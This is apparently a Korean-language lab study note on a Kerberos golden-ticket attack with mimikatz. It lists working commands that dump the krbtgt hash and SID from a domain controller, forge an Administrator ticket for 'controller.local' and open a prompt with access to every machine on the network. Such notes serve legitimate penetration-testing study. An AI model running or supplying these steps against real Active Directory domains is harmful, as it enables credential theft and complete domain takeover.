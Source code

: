 
mimikatz 사용


#### krbtgt 해시 덤프

```powershell
./mimikatz.exe
```

```powershell title="privilege 20 ok"
privilege::debug
```

```powershell title="골든 티켓을 만들 수 있는 Kerberos 티켓 부여 티켓 계정의 해시 및 보안 식별자가 덤프"
lsadump::lsa /inject /name:krbtgt
```

![[Pasted image 20250823213403.png]]

```powershell title="골든 티켓 만들기"
kerberos::golden /user:"Administrator" /domain:"controller.local" /sid:"S-1-5-21-849420856-2351964222-986696166" /krbtgt:"5508500012cc005cf7082a9a89ebdfdf" /id:500
```

![[Pasted image 20250823215128.png]]

```powershell
# 모든 컴퓨터에 대해 상승된 권한이 있는 새 명령 프롬프트가 열림
misc::cmd
```

![[Pasted image 20250823215141.png]]

이제 네트워크의 다른 모든 시스템에 액세스할 수 있는 또 다른 명령 프롬프트가 표시됩니다.

![[Pasted image 20250823215149.png]]

![[Pasted image 20250823215249.png]]

